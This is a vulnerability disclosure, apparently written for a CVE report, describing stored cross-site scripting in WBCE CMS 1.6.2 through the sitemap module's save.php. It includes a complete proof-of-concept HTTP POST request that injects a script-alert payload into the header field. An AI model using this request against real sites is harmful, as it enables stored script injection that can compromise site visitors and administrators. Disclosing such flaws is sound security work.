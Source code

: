 Vulnerability type : Cross Site Scripting

Vendor of the product(s) : https://wbce.org/de/wbce、https://github.com/WBCE/WBCE_CMS

Affected Product Code Base : WBCE_CMS =1.6.2

Affected Component : /admin/pages/modify.php、/wbce/modules/sitemap/save.php

Attack Type : Remote

Attack Vectors : Users can insert JavaScript statements by controlling website_header


Stored Cross-Site Scripting

![](https://github.com/WindyAlexQ/CVE/blob/main/images/259173815259273.png)

request packet

```
POST /wbce/modules/sitemap/save.php HTTP/1.1
Host: 192.168.168.129
Content-Length: 370
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.168.129
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.168.129/wbce/admin/pages/modify.php?page_id=4
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session_b2evo=1_8Lvt6Brj6zjgD62GctG92mRj3pftZwEK; loginstate=false; phpsessid-9277-sid=c7ufghg4icqd737a3segkc1ith; stElem___stickySidebarElement=%5Bid%3A0%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A1%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A2%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A3%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A4%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A5%5D%5Bvalue%3AnoClass%5D%23%5Bid%3A6%5D%5Bvalue%3AnoClass%5D%23; WBCELastConnectJS=1722929712
Connection: close

page_id=4&section_id=4&static=1&formtoken=23cd25eb-c83644b5f00c0344e9652534dc6a7dc0bf26cd39&startatroot=1&depth=0&all_menus=0&header=%3Cscript%3Ealert%28%22xss+test%21%22%29%3C%2Fscript%3E&level_header=%3Cul%3E&sitemaploop=%3Cli%3E%3Ca+href%3D%22%5BLINK%5D%22+target%3D%22%5BTARGET%5D%22%3E%5BPAGE_TITLE%5D%3C%2Fa%3E%3C%2Fli%3E&level_footer=%3C%2Ful%3E&footer=&save=Save
```



![](vx_images/516704015247140.png =800x)
